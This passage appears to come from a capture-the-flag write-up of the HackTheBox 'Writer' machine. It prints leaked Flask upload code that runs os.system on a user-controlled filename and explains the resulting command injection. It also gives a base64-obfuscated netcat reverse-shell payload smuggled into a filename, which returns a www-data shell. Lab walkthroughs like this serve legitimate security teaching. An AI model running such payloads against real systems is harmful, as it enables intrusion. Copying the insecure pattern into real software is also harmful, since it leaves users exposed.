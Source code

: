 &lt;/Files&gt;#        &lt;/Directory&gt;##        WSGIDaemonProcess writer2_project python-path=/var/www/writer2_project python-home=/var/www/writer2_project/writer2env#        WSGIProcessGroup writer2_project#        WSGIScriptAlias / /var/www/writer2_project/writerv2/wsgi.py#        ErrorLog ${APACHE_LOG_DIR}/error.log#        LogLevel warn#        CustomLog ${APACHE_LOG_DIR}/access.log combined##&lt;/VirtualHost&gt;# vim\: syntax=apache ts=4 sw=4 sts=4 sr noetIn particular, note the directory in which the writer.wsgi file lies in (highlighted in blue). After finding out that the server is running python, fuzzing for files in the root of the web server revealed an __init__.py file within /var/www/writer.htb/writer/. Leaking this file reveals the following contents\:if request.method == “POST”\:        if request.files[‘image’]\:             image = request.files[‘image’]            if ”.jpg” in image.filename\:                path = os.path.join(‘/var/www/writer.htb/writer/static/img/’, image.filename)               image.save(path)$               image = “/img/{}”.format(image.filename)           else\:$               error = “File extensions must be in .jpg!”               return render_template(‘add.html’, error=error)       if request.form.get(‘image_url’)\:           image_url = request.form.get(‘image_url’)           if ”.jpg” in image_url\:               try\:                   local_filename, headers = urllib.request.urlretrieve(image_url)                   os.system(“mv {} {}.jpg”.format(local_filename, local_filename))                   image = “{}.jpg”.format(local_filename)                   try\:                       im = Image.open(image)                       im.verify()                       im.close()                       image = image.replace(‘/tmp/’,’’)                      os.system(“mv /tmp/{} /var/www/writer.htb/writer/static/img/{}”.format(image, image))                       image = “/img/{}”.format(image)                   except PIL.UnidentifiedImageError\:                       os.system(“rm {}”.format(image))                       error = “Not a valid image file!”…          if request.form.get(‘image_url’)\:           image_url = request.form.get(‘image_url’)           if ”.jpg” in image_url\:               try\:                   local_filename, headers = urllib.request.urlretrieve(image_url)                   os.system(“mv {} {}.jpg”.format(local_filename, local_filename))                   image = “{}.jpg”.format(local_filename)                   try\:                       im = Image.open(image)                       im.verify()                       im.close()                       image = image.replace(‘/tmp/’,’’)                       os.system(“mv /tmp/{} /var/www/writer.htb/writer/static/img/{}”.format(image, image))                       image = “/img/{}”.format(image)                       cursor = connector.cursor()                       cursor.execute(“UPDATE stories SET image = %(image)s WHERE id = %(id)s”, {‘image’\:image, ‘id’\:id})                       result = connector.commit()                   except PIL.UnidentifiedImageError\:                       os.system(“rm {}”.format(image))                       error = “Not a valid image file!”                       return render_template(‘edit.html’, error=error, results=results, id=id)               except\:                   error = “Issue uploading picture”                   return render_template(‘edit.html’, error=error, results=results, id=id)           else\:               error = “File extensions must be in .jpg!”Note the file was shortened to better emphasize the source code of the upload feature. Critically insecure code is highlighted in red, and the text highlighted in purple is the segment that the undermentioned exploit focuses on.Finding RCE VulnerabilityWithin the source code are multiple examples of insecure code (explored more in detail in the Post Exploitation Analysis section). One that particularly stands out is the call of os.system on the uploaded filename. Before testing exploits on the target, the exploit was tested out locally to get a closer view as to how the program behaves. Copying the segment of interest, we can get a closer look at how the program treats file names\:Code import urllibimport osfrom flask import requestlocal_filename, headers = urllib.request.urlretrieve(‘http\://10.10.15.80/.jpg/1.jpg;sleep’)print(“The local_filename is”, local_filename)os.system(“mv {} {}.jpg”.format(local_filename, local_filename))Observe the argument of the urllib.request.urlretrieve() function. The user is in control of this argument. If a user were to upload a file called 1.jpg;sleep, then the server will behave accordingly\:ResponseThe local_filename is /tmp/tmpen3ya1q1However, when changing the argument to be file\:///home/0xd4y/business/hackthebox/medium/linux/writer/www/.jpg/1.jpg;sleep 10, then command execution is performed. This works because the urllib function does not correctly rename the file to something safe in the instance that the argument is using the file protocol. Therefore, a file with a malicious name can be uploaded using the image parameter, and this file can then be referenced locally via the file protocol.Reverse ShellAfter uploading a file with the name `0xd4y.jpg;echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuODAgOTAwMSA+L3RtcC9m|base64 -d|bash`, it was referenced locally by putting the following in the image_url parameter\: file\:///var/www/writer.htb/writer/static/img/0xd4y.jpg;`echo -n cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuODAgOTAwMSA+L3RtcC9m|base64 -d|bash`. A reverse shell was then returned as the www-data user\:┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]└──╼ $nc -lvnp 9001listening on [any] 9001 …connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101]